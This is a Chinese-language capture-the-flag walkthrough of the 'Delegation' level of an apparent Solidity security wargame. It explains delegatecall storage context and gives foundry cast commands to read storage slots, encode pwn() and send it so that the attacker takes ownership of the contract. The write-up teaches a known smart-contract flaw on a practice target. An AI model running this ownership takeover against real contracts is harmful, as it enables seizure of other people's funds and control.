 ### 第6关：Delegation

这一关目的是要修改目标合约的 owner 变量为攻击者的地址。
题目的上半部分给了一个代理合约的代码, 下半部分是要攻击的合约 Delegation 的代码：
```solidity
contract Delegate {
    address public owner;

    constructor(address _owner) {
        owner = _owner;
    }

    function pwn() public {
        owner = msg.sender;
    }
}
///////////////////////////////////
contract Delegation {
    address public owner;
    Delegate delegate;
...
    fallback() external {
        (bool result,) = address(delegate).delegatecall(msg.data);
        if (result) {
            this;
        }
    }
}
```




我们的思路是：
**地址 A 通过合约 B 的 delegatecall() 去调用 合约 C ，从而导致 B 的变量被修改。（这要求 B 的变量必须和目标合约 C 的变量存储布局必须相同）**
*delegatecall() 与 call() 的区别在于：delegatecall() 相当于 B 在自己的上下文环境中运行 C 的代码，影响的是 B 家里的变量。而 call() 是在直接在 C 的上下文环境中运行 C 的代码，影响的是 C 家里的变量。*

**此时我们如果调用 B 合约， 而 B 合约中没有任何匹配的函数时，会触发 B 的 fallback 函数。（如果有 fallback 的话）**

*使用 foundry cast 来读取存储槽，可以读取到公共变量 owner 和私有变量 delegate（分别存储在 0号存储槽 和 1号存储槽）。进而可以查看目标合约与代理合约的变量布局。*
```shell
cast storage 0x目标合约地址 0  --rpc-url=https://blastapi.io
cast storage 0x目标合约地址 1  --rpc-url=https://blastapi.io
 ```

首先构造 .delegatecall(msg.data); 里面的 msg.data，也就是代理合约中的 pwn()函数，
我们使用 foundry cast 对拟调用的 pwn() 进行ABI编码，得到 0xdd365b8b ：
 ```shell
cast calldata "pwn()"
 ```
然后将 msg.data 发给目标合约：
 ```shell
cast send 0x目标合约地址 0xdd365b8b  --rpc-url=https://public.blastapi.io  --private-key=攻击者私钥
 ```

 点击 Submit Instance, 过关。
